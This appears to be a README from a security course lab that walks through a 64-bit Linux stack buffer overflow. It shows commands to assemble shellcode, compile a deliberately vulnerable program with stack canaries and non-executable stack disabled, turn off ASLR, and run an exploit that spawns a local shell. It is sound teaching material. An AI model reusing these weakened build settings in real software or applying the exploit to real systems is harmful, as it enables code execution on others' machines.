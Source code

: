 # Buffer overflow

In class, we looked at buffer overflows, using the examples at:

<https://blog.techorganic.com/2015/04/10/64-bit-linux-stack-smashing-tutorial-part-1/>

But even though we got the address of our shellcode in the return address slot
of the `vuln` function, we couldn't get a shell. There were a couple of things
missing from our example, and I worked some on it to clear up the remaining
issues.

I borrowed the shellcode and exploit script from another tutorial:

<https://thesquareplanet.com/blog/smashing-the-stack-21st-century/>

You can compile the shellcode  with:
```
$ cc -m64   -c -o shellcode.o shellcode.S
```

And extract only the shellcode bytes with:
```
$ objcopy -S -O binary -j .text shellcode.o shellcode.bin
```
Next I compiled the vulnerable program, turning off non-executable stack (`-z execstack`) and the stack canaries (`-fno-stack-protector`).
```
$ gcc -fno-stack-protector -z execstack classic.c -o classic
```
Finally, I run the vulnerable program turning off ASLR (using `setarch -R`) and cleaning the environment, to get a consistent base address (using `env -`):

```
$ python3 exploit.py | env - setarch -R ./classic
Try to exec /bin/sh
Read 112 bytes. buf is �%YH�H1��AH�A�;H��H�H�Q�<H1������/bin/shAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAp
&buf = 0x7fffffffecc0
No shell for you :(
```
at this point, it looks like nothing is happening, you get no prompt, and no output, but if you type shell commands like `ls` you should see output.
```
ls
README	 classic.c   shellcode.S    shellcode.o
classic  exploit.py  shellcode.bin
```
You can type `exit` to get back to your usual prompt.
